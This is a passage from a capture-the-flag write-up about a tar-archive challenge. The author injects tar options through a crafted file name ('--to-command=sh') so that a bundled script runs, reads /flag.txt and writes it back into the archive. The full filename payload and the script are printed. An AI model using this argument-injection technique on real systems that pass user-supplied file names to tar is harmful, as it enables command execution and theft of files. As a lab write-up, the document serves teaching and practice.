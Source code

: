 
&nbsp;


![mtime](/assets/tarinspector/mtime.png)

Perfect. Since the format is abitrary, I assume I can put whatever the heck I want and it'll work without an error.
I'll change my filename to ```exploit* --to-command=sh append.sh --mtime=*.tar``` and give it a run.

```
└─▪ python3 function.py exploit\*\ --to-command\=sh\ append.sh\ --mtime\=\*.tar 
File changed to new filename

tar -xvf exploit* --to-command=sh append.sh --mtime=*__1ee087.tar
tar: Substituting -9223372036854775807 for unknown date format ‘*__1ee087.tar’
append.sh
utctf{flag}
File change back to old name
```

A flawless run! The mtime didn't work entirely as expected, but it still got the job done.

Let's upload this thing and get the flag!

![fail](/assets/tarinspector/fail.png)

*What the heck!*

 At this point I knew for a fact that my exploit worked and I should be getting the flag. 
I decided to double check the hint of where the flag was. 

![hint](/assets/tarinspector/hint.png)

After all this testing my brain thought that /flag.txt meant the current directory, and about a minute I realized that it was the root directory...


I changed the location to /flag.txt, sent my malicious tar file, and there was the flag!

![flag](/assets/tarinspector/flag.png)

utflag{bl1nd_c0mmand_1nj3ct10n?_n1c3_w0rk}



**NOTE:** When I went back and did this writeup, my exploit wasn't working! Why? 
When you upload the tar file, it actually gets uploaded! If you try to upload another file with the same name, it will error out because it already exists.
You have to change the filename on each run for it to actually work.

&nbsp;

tl;dr 

&nbsp;

Filename of tar archive
```
exploit* --to-command=sh append.sh --mtime=*.tar
```


Script inside of the tar archive

```
var=$( cat /flag.txt )
touch $var
tar -rvf exploit* $var
```